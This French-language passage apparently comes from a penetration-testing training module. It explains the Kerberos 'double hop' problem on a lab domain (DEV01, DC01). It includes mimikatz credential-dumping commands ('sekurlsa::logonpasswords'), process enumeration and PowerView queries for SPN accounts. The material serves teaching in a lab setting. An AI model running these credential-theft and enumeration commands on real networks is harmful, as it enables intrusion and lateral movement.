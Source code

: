 ```
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

mimikatz(commandline) # exit
Bye!

```

Il existe en effet des processus exécutés dans le contexte de l' `backupadm`utilisateur, tels que `wsmprovhost.exe`, qui est le processus qui apparaît lorsqu'une session Windows Remote PowerShell est générée.

  Problème de "double saut" Kerberos

```
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
wsmprovhost.exe               1844 Services                   0     85,212 K Unknown         INLANEFREIGHT\backupadm
                             0:00:03 N/A
tasklist.exe                  6532 Services                   0      7,988 K Unknown         INLANEFREIGHT\backupadm
                             0:00:00 N/A
conhost.exe                   7048 Services                   0     12,656 K Unknown         INLANEFREIGHT\backupadm
                             0:00:00 N/A

```

En termes simples, dans cette situation, lorsque nous essayons d'émettre une commande multi-serveur, nos informations d'identification ne seront pas envoyées de la première machine à la seconde.

Disons que nous avons trois hôtes : `Attack host`--> `DEV01`--> `DC01`. Notre hôte d'attaque est un boîtier Parrot au sein du réseau d'entreprise mais non joint au domaine. Nous obtenons un ensemble d'informations d'identification pour un utilisateur de domaine et constatons qu'il fait partie du `Remote Management Users`groupe sur DEV01. Nous souhaitons utiliser `PowerView`pour énumérer le domaine, ce qui nécessite une communication avec le contrôleur de domaine, DC01.

![image](https://academy.hackthebox.com/storage/modules/143/double_hop.png)

Lorsque nous nous connectons à `DEV01`l'aide d'un outil tel que `evil-winrm`, nous nous connectons avec l'authentification réseau, de sorte que nos informations d'identification ne sont pas stockées en mémoire et, par conséquent, ne seront pas présentes sur le système pour s'authentifier auprès d'autres ressources au nom de notre utilisateur. Lorsque nous chargeons un outil tel que `PowerView`et tentons d'interroger Active Directory, Kerberos n'a aucun moyen d'indiquer au contrôleur de domaine que notre utilisateur peut accéder aux ressources du domaine. Cela se produit car le ticket Kerberos TGT (Ticket Granting Ticket) de l'utilisateur n'est pas envoyé à la session distante ; par conséquent, l'utilisateur n'a aucun moyen de prouver son identité et les commandes ne seront plus exécutées dans le contexte de cet utilisateur. En d'autres termes, lors de l'authentification auprès de l'hôte cible, le ticket TGS (ticket-granting service) de l'utilisateur est envoyé au service distant, ce qui permet l'exécution de la commande, mais le ticket TGT de l'utilisateur n'est pas envoyé. Lorsque l'utilisateur tente d'accéder aux ressources suivantes du domaine, son TGT ne sera pas présent dans la requête, le service distant n'aura donc aucun moyen de prouver que la tentative d'authentification est valide et l'accès au service distant nous sera refusé.


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname